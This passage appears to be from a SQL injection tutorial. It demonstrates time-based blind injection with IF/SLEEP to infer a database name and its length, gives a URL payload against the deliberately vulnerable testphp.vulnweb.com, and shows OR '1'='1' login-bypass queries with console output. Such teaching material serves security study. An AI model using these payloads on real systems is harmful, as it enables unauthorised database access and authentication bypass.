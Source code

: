 **If command**

```
mysql> select * from users where name="sherwin" and if(database()="a",sleep(2),sleep(5));
Empty set (5.01 sec)

mysql> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="1",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="2",sleep(2),sleep(5));
Empty set (5.00 sec)
```

````
http://testphp.vulnweb.com/listproducts.php?cat=2 and and if(length(database())="6",sleep(2),sleep(5));
````



### 3. Out of Band SQLi

   - Oracle
   - UTL_HTTP



## Classic Injection Bypass

```
MariaDB [y]> use dark
Database changed

MariaDB [dark]> select * from login;
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="Sherwin" and password="12345";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="sherwin" or "1"="1" and password="12345" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where name="ser" or "1"="1" and password="67890" or "1"="1";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
```